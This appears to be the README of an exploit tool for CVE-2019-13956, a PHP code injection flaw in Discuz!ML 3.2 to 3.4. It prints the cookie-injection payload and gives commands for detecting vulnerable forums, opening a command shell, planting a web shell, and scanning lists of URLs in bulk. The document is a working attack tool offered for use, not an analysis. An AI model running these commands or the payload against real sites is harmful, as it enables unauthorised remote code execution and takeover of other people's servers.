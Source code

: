 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

`python discuz_mlRce.py -h`<br/>



----------------
**Vulnerability Detection** 

`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" `<br/>

------
**GETTING Command Shell**

`python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" --cmdshell`

----------------

**GETTING Shell URL**

`python ddiscuz_mlRce.py -u "http://www.ppp.cn/forum.php" --getshell`

----------------

**Scanning List of URL** 

`python discuz_mlRce.py -f urls.txt`

----------
